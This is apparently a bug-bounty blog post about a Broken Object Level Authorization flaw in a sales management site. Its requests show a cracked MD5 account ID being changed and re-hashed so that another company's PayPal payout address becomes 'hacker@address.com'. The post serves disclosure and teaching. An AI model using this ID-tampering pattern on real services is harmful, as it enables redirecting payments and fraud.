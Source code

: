 ```yaml
---
layout: post
title:  From Broken Object Level Authorization(BOLA) to the Massive Financial Attack
description: Hey everyone, today we’re going to talk about how web applications can be affected by a Broken Object Level Authorization (BOLA) vulnerability, and I’m also going to give you an exploit case example.
date:   2024-05-14 11:01:35 +0300
image:  '/images/110.jpg'
tags:   [bug bounty, web]
---
```

Hey everyone, today we’re going to talk about how web applications can be affected by a Broken Object Level Authorization (BOLA) vulnerability, and I’m also going to give you an exploit case example.

> Basically, the BOLA vulnerability allows an attacker to manipulate the parameters of a request to access features or functionality that shouldn’t be available to them. This occurs when the application relies exclusively on client-supplied data to determine authorization levels, rather than doing proper validation on the server.
>

A common example of this vulnerability is when a web application has URLs that include parameters identifying specific objects, such as user IDs or post IDs. If the application does not verify that the authenticated user has permission to access that particular object before granting access, an attacker could easily modify the parameter value to access information or resources that should not be accessible to them.

This vulnerability could allow an attacker to access, modify, or delete other users’ data, view sensitive information, perform unauthorized actions, and compromise the overall security of the system.

This vulnerability combined with a sales management system can cause big problems, don’t you think? That’s what we’ll look at in our exploration case.

# Exploitation Case
In the following example, I will explain how the analysis flow was when I found a critical 0day vulnerability. As simple as it may seem, believe me, many applications worldwide are susceptible to BOLA vulnerabilities, which affect very important functionalities and can cause significant damage.
Let's imagine we are logged into our company account on a website that manages sales. By accessing our account settings, we have all the settings related to our store, products, prices, orders, customers, discount coupons, PayPal address, and other details.

To exploit this type of vulnerability, we can access our account settings and, with the Burp Suite proxy turned on, capture the request that performs the action.

### 1.0 Request:
{% highlight js %}
POST /configuration/sales/d800cfdb966ea519943368dd0507d8f2/edit
{
    "sales_receipt_address":{
        "paypal":"company@company.com"
        "other": null
        "other": null
    }
}
{% endhighlight %}

Alright, now let’s crack MD5 hash and check what it refers to…

{% highlight js %}
d800cfdb966ea519943368dd0507d8f2: 1998711
{% endhighlight %}

### 1.1 Response:
{% highlight js %}
HTTP/2 200 OK
{
  "message":"Sales Receipt Address changed successfully"
}
{% endhighlight %}

We were able to locate our account/company ID within the sales and management system.

By changing the number to 1998710 and encrypting it, let’s send the request and see what happens…

### 2.0 Request:

{% highlight js %}
POST /configuration/sales/e240ba36881c274bdce70af41b71fd6e/edit
{
  "sales_receipt_address":{
    "paypal":"hacker@address.com"
    "other": null
    "other": null
  }
}
{% endhighlight %}

### 2.1 Response:

{% highlight js %}
HTTP/2 200 OK
{
  "message":"Sales Receipt Address changed successfully"
}
{% endhighlight %}

And so it was possible to change the address for receiving payments from account/company sales without necessarily needing any authorization..

Later I found other places vulnerable to BOLA in which I was able to confirm that the change really worked.

![](/images/130.jpg)


Fortunately, the company has already been notified and has already corrected the problem.

This was just one of the cases of exploitation of the BOLA vulnerability, it can be present in several companies from the most varied sectors, financial, e-commerce, health, industrial.